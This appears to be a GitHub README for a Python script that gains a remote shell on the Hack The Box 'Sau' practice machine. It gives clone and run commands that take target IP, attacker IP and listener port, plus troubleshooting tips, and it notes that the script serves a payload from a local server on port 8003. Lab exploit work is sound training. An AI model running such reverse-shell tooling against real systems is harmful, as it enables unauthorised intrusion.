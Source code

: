 # SAU Machine Hackthebox

## Remote Code Execution (RCE)

Simple sau machine RCE to gain a shell.

---

### HOW TO USE IT

Download the `repository` :

```bash
git clone https://github.com/mikelgoti/SAU-HTB-RCE.git
```

Or just download the `sau_rce.py` .



Travel to the directory where you download the `script` and execute it with python:

```bash
python sau_rce.py -u <sau_machine_ip> -y <your_ip> -p <port_for_listener>
```

## EXAMPLES


![example1](images/example1.png)



![example2](images/example2.png)


---

## Not working ?

If the script is not running properly, it could be because you haven't installed one of these modules for Python:

+ import string

+ import random

+ import requests

+ import os

+ import threading

+ import time

+ import argparse

Install the missing modules with pip in your python enviroment and try it again.



Another reason could be that it's taking too much time to make the request, so you would need to increase this parameter to `10`.

![example3](images/example3.png)



Lastly, ensure that no other program on your computer is using port 8003, as this port needs to be available for python server.



---

## Note

`Don't worry about the 'Terminated' word showing once you've got the shell. It's because the Python server thread was closed.`
